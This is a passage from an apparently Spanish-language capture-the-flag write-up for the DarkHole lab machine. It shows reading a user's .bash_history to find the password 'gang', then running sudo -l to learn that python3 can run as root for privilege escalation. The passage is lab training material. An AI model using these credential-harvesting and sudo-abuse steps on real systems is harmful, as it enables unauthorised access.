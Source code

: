 Podemos observar el historial de bash, donde identificamos la contraseña del usuario losy.
```ruby
cat .bash_history 
clear
password:gang 
```
Podemos observar que el binario de python3, tiene permisos de execución por lo que lo puede utilizar para elevar privilegios.
```ruby
losy@darkhole:~$ sudo -l -S
sudo -l -S
[sudo] password for losy: gang
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
losy@darkhole:~$ 
```

















